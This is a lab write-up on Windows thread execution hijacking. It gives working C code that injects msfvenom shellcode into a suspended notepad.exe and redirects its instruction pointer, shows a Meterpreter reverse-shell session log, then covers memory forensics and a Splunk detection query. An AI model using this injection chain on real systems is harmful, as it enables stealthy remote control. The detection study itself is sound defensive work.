




# Thread Execution Hijacking (SetThreadContext) — Full Shellcode Injection

## What was tested

This lab combined every primitive from Tests 4–6 into a working
thread-hijacking chain: a real msfvenom payload was embedded into the
injector, written into a suspended target thread's process, and
executed by overwriting that thread's instruction pointer — with no
`CreateRemoteThread` call anywhere in the chain.

## Payload Generation (Kali)




The raw shellcode buffer (`payload[]`) was copied directly into the C
injector as a `WriteProcessMemory` source buffer — the same
static-array embedding pattern used in [[static_create_remote_thread]]
(Part 1 of the injection-api-resolution report), except this time the
buffer is never handed to `CreateRemoteThread`; it is written into
memory a suspended thread is redirected into instead.

## C File

[Thread Hijacking](../../scripts/thread_hijacking.c)

## Attack Chain
```c
// 1. Target Process (notepad.exe) Spawned in Suspended Mode
STARTUPINFOA si = { sizeof(si) };
PROCESS_INFORMATION pi = { 0 };

CreateProcessA(NULL, "notepad.exe", NULL, NULL, FALSE, 
               CREATE_SUSPENDED, NULL, NULL, &si, &pi);

// 2. Remote Memory Allocated and Shellcode Injected
LPVOID lpRemoteBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(payload), 
                                       MEM_RESERVE | MEM_COMMIT, 
                                       PAGE_EXECUTE_READWRITE);

SIZE_T szWrittenBytes = 0;
WriteProcessMemory(pi.hProcess, lpRemoteBuffer, payload, sizeof(payload), &szWrittenBytes);

// 3. Suspended Thread Context Retrieved and RIP (Instruction Pointer) Hijacked
CONTEXT lpThreadContext = { .ContextFlags = CONTEXT_CONTROL };
GetThreadContext(pi.hThread, &lpThreadContext);

lpThreadContext.Rip = (DWORD64)lpRemoteBuffer;
SetThreadContext(pi.hThread, &lpThreadContext);

// 4. Thread Execution Resumed to Trigger Payload
ResumeThread(pi.hThread);
```

**## Thread Context Manipulation — `CONTEXT` Structure & Register State**

The critical primitive in this technique is not `SetThreadContext()` by itself, but the manipulation of the target thread's CPU execution state through the Windows `CONTEXT` structure.

A Windows thread maintains architectural state including its instruction pointer (`RIP`), stack pointer (`RSP`), general-purpose registers, flags, and other processor state. `GetThreadContext()` retrieves this state for a suspended thread, allowing selected portions of the state to be inspected or modified before `SetThreadContext()` applies the modified context.

### `CONTEXT_CONTROL`

The injector initializes the structure with:

```c
CONTEXT ctx = { 0 };
ctx.ContextFlags = CONTEXT_CONTROL;

GetThreadContext(pi.hThread, &ctx);
```

`CONTEXT_CONTROL` requests the control portion of the thread state, including the instruction pointer (`RIP`), stack pointer (`RSP`), frame pointer (`RBP`), flags, and related control/segment state.

The retrieved state can conceptually be represented as:

```text
Target Thread Context
┌─────────────────────────────┐
│ RIP   → current execution   │
│ RSP   → current stack       │
│ RBP   → frame/base pointer  │
│ EFLAGS                      │
│ control/segment state       │
└─────────────────────────────┘
```

The injection then modifies the instruction pointer:

```c
ctx.Rip = (DWORD64)lpRemoteBuffer;
```

This changes the execution destination of the suspended thread. When the thread is subsequently resumed, execution begins at the address stored in `RIP`.

### `CONTEXT_INTEGER`

The same mechanism can also expose the general-purpose integer registers by requesting:

```c
ctx.ContextFlags = CONTEXT_CONTROL | CONTEXT_INTEGER;
```

This includes registers such as:

```text
RAX
RBX
RCX
RDX
RSI
RDI
R8–R15
```

For example:

```c
ctx.Rax = 0xDEADBEEFCAFEBABE;
```

would modify the value that the thread will observe in `RAX` when the modified context is restored.

This demonstrates that the technique is fundamentally a **CPU register-state manipulation primitive**, rather than merely an instruction-pointer overwrite.

### `SetThreadContext()` Semantics

`SetThreadContext()` applies the portions of the context selected through `ContextFlags`. Therefore, it is more accurate to describe the operation as:

```text
GetThreadContext()
        │
        ▼
┌─────────────────────┐
│ CONTEXT             │
│                     │
│ RIP ────────┐       │
│ RSP         │       │
│ RBP         │       │
│ RAX         │       │
│ RCX         │       │
│ ...         │       │
└─────────────┼───────┘
              │
              │ modify selected fields
              ▼
       SetThreadContext()
              │
              ▼
     modified thread state
```

In this lab, only `RIP` is intentionally changed. The target thread therefore resumes with its existing stack pointer and other unmodified register state.

Conceptually, the resulting state is:

```text
Before:

RIP → normal Notepad execution
RSP → Notepad thread's existing stack
RAX → original value
RCX → original value
...

After:

RIP → injected payload
RSP → same existing stack
RAX → original value
RCX → original value
...
```

This distinction is important because redirecting `RIP` does **not** automatically construct a new execution environment for the payload.

### `CONTEXT` Alignment vs. Runtime Stack Alignment

The alignment requirement of the `CONTEXT` object and the runtime alignment of `RSP` are separate concepts.

The `CONTEXT` structure used with the Windows thread-context APIs must satisfy the documented alignment requirements. On x64, the structure is required to be 16-byte aligned in memory. Normal Windows SDK definitions already account for the required alignment, so manually applying:

```c
__declspec(align(16))
```

is generally unnecessary for a normally declared `CONTEXT` object.

This should not be confused with the Windows x64 ABI's runtime stack alignment.

The payload executes using the thread's existing `RSP` unless it explicitly establishes another stack state. If the payload subsequently performs function calls, it must satisfy the Windows x64 calling convention, including the required stack layout and 32-byte shadow/home space.

Therefore:

```text
CONTEXT object alignment
        ≠
RSP / ABI stack alignment
```

The first concerns the memory address of the `CONTEXT` structure passed to the Windows API. The second concerns the runtime stack used by executing x64 code.

### Why This Matters for the Hijacking Chain

The complete execution transition can therefore be represented as:

```text
CreateProcess(CREATE_SUSPENDED)
            │
            ▼
    Existing Notepad Thread
            │
            ▼
    GetThreadContext()
            │
            ▼
       CONTEXT structure
            │
            ├── RIP = original execution address
            ├── RSP = existing Notepad stack
            └── other register state
            │
            ▼
    Modify ctx.Rip
            │
            ▼
    SetThreadContext()
            │
            ▼
    Modified thread state
            │
            ▼
       ResumeThread()
            │
            ▼
      RIP → injected payload
```

The key property of the technique is that the target does not need a newly created remote thread to begin executing the injected code. An existing thread is resumed with a modified instruction pointer, making the thread-context manipulation itself the execution-redirection primitive.


## Result — Meterpreter Session

``` text
[*] Started reverse TCP handler on 10.250.17.192:5050
[*] Sending stage (232006 bytes) to 10.250.17.49
[*] Meterpreter session 2 opened (10.250.17.192:5050 -> 10.250.17.49:34711) at 2026-09-24 06:56:39 -0400

meterpreter > shell
Process 21640 created.
Channel 1 created.
Microsoft Windows [Version 10.0.26200.9457]

C:\temp_test\c_test\win_api>whoami
desktop-mj170ve\tevfil turkoglu

C:\temp_test\c_test\win_api>whoami /priv
...
SeDebugPrivilege                     Enabled
SeImpersonatePrivilege                Enabled
```



## Memory Inspection & Artifact Verification (System Informer)



Inspection of the target process (Notepad.exe, PID 22200) using System Informer reveals a classic, high-confidence memory artifact left behind by this injection technique:   

1. Unbacked / Anonymous RWX Memory Region:

* A memory block allocated at base address 0x1dc20c90000 exhibits Read-Write-Execute (RWX) memory protection flags.   
  
* The Type is categorized as Private and lacks a mapped file backing (no corresponding DLL or executable path on disk under the Use column), confirming it was dynamically allocated at runtime via VirtualAllocEx.   

2. Shellcode Payload Inspection:

* Examining the raw byte dump of the 0x1dc20c90000 region confirms the presence of the injected stage-1 shellcode.   

* The initial bytes (fc 48 83 e4 f0 e8 ...) align precisely with the injected msfvenom x64 assembly sequence, alongside visible string references such as ws2_32.dll (Windows Sockets library) embedded within the payload stream for resolving network socket APIs.   

From a Blue Team / Memory Forensics perspective, unbacked executable memory (RWX or RX regions without an associated module path) coupled with socket initialization routines inside a native, non-network binary like notepad.exe serves as a primary indicator of process injection


## Detection & Telemetry Analysis (Splunk SIEM)
Telemetry Breakdown & Blind-Spot Analysis

Because the attack leverages Thread Execution Hijacking (SetThreadContext) on a process spawned in a suspended state rather than creating an external thread, Sysmon Event ID 8 (CreateRemoteThread) is completely bypassed.

To bridge this detection gap, telemetry analysis relies on Sysmon Event ID 10 (ProcessAccess) combined with dynamic risk scoring:

1. Process Access Telemetry (Sysmon Event ID 10):

* Source Image: C:\temp_test\c_test\win_api\scripts\thread_hijacking.exe

* Target Image: C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2607.14.0_x64__8wekyb3d8bbwe\Notepad\Notepad.exe

* GrantedAccess Mask: 0x1fffff (PROCESS_ALL_ACCESS)

2. CallTrace Verification:

* The call stack originates from untrusted user-space execution (thread_hijacking.exe+1853) via ntdll.dll and KERNELBASE.dll API  transitions, confirming process handle acquisition for memory allocation and thread context manipulation.


## Splunk Verification (SPL)

```
index=windows_sysmon EventCode=10
| eval src=lower(SourceImage), tgt=lower(TargetImage)
| eval ga_lower = lower(GrantedAccess)
| eval ga_int = tonumber(replace(ga_lower, "0x", ""), 16)
| eval is_cross = if(src!=tgt, 1, 0)
| eval has_vm_write = if(floor(ga_int/32) % 2 == 1, 1, 0)
| eval has_vm_op    = if(floor(ga_int/8) % 2 == 1, 1, 0)
| eval has_all_access = if(ga_lower=="0x1fffff" OR ga_lower=="0x1f0fff", 1, 0)
| eval inject_rights = if(has_vm_write=1 AND has_vm_op=1, 1, 0)
| eval unbacked_call = if(match(CallTrace, "UNKNOWN\("), 1, 0)
| eval is_trusted = if(match(src, "\\\\(splunkd|csrss|msmpeng|code|sysmon64|procdump|procdump64|enghost)\.exe$") OR match(src, "system32|windbg"), 1, 0)
| where is_cross=1 AND inject_rights=1 AND is_trusted=0
| eval detect_type = "THREADLESS_PROCESS_ACCESS"
| eval impact = case(
    has_all_access=1, 95,
    inject_rights=1, 80,
    1=1, 50)
| eval confidence = case(
    unbacked_call=1 AND has_all_access=1, 0.95,
    has_all_access=1, 0.85,
    inject_rights=1 AND unbacked_call=1, 0.75,
    1=1, 0.65)
| eval risk_score = impact * confidence
| where risk_score >= 30
| table _time, detect_type, SourceImage, TargetImage, GrantedAccess, CallTrace, confidence, impact, risk_score
| sort - risk_score
```




## What was learned

The redirected thread was **notepad.exe's own hijacked thread**, not a
newly created one — `Process 21640` shown by `shell` is the child
`cmd.exe` the meterpreter stage itself spawned once running, not the
injection vector. The injection vector (Notepad) never shows up as a
new process at all, which is the entire point of thread hijacking over
`CreateRemoteThread`: no new thread is created in the target, so there
is no `CreateRemoteThread` call, no new TID appearing out of nowhere —
only an existing, already-legitimate thread's register state changes.

This has a direct, negative implication for the detection query built
in [[injection-api-resolution-report]] Part 1: that query keys on
Sysmon **Event ID 8** (`CreateRemoteThread`) combined with EID 10
(`ProcessAccess`). Thread hijacking produces **no EID 8 event at all**
— the only remaining telemetry is the EID 10 `ProcessAccess` carrying
`THREAD_SUSPEND_RESUME | THREAD_GET_CONTEXT | THREAD_SET_CONTEXT` in
`GrantedAccess`, plus the `VirtualAllocEx`/`WriteProcessMemory` calls
against the target process, with no corresponding thread-creation
event to correlate against. This is the concrete, hands-on
confirmation of the "C2: thread-less injection" detection gap
identified in the [[attack-coverage-matrix]] T1055 cluster breakdown —
a detection rule anchored on `CreateRemoteThread` alone is structurally
blind to this technique, regardless of how well it is written.

`SeDebugPrivilege` and `SeImpersonatePrivilege` showing `Enabled` in
the resulting shell's `whoami /priv` output are themselves worth a
downstream note: the injected thread inherited the **security context
of the hijacked process** (Notepad, running as the interactive user),
not the injector's own token — a reminder that thread hijacking
doesn't grant new privileges by itself, it borrows whatever the
victim thread's process already has.